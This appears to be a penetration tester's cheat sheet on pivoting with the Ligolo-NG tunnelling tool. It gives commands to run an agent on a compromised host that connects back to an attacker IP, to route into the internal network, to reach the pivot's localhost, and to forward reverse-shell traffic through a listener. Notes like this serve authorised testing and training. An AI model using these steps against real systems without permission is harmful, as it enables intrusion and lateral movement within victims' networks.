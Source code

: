 # Ligolo-NG

## [Download](https://github.com/nicocha30/ligolo-ng)

## Usage
* Agent Setup
  - Upload agent to compromised host
  - Execute agent
  ```bash
  # Linux
  ./agent -connect <attackerIP:11601>
  ```
  ```powershell
  # Windows
  ./agent -connect <attackerIP:11601>
  ```
* Attacker Machine Setup
  - Create interface for Ligolo to use
  ```bash
  sudo ip tuntap add user <username> mode tun ligolo

  sudo ip link set ligolo up

  # Verify iface added
  ip addr show ligolo
  ```
* Start Ligolo-NG
  ```bash
  ligolo-ng-proxy
  ```
* Run the agent on the pivot machine
  ```bash
  agent -connect <attacker IP:11601>
  ```
  - Should see agent joined on the attacker machine
* Select Agent on Attacker machine
  ```bash
  session
  ```
* Add route on attacker machine
  ```bash
  sudo ip route add <pivot network> dev ligolo
  # Example: sudo ip route add 10.10.11.0/24 dev ligolo
  ```
* In the proxy interface, start the tunnel
  ```bash
  start
  ```
* Setup is done, you should be able to access the proxy environment. No proxychains, etc required

### Setup to access the pivot host (Pivot host will be unavailable when ligolo is running)
* Add special route with *magic* ip address
  ```bash
  sudo ip route add 240.0.0.1/32 dev ligolo
  ```
  - accesses 127.0.0.1 on the pivot box

### Setup for reverse shell
* In the proxy shell on the attack machine, add a listener
  ```bash
  listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
  ```
  - Adds a listener on the agent machine, port 30000 and forwards to us on port 10000

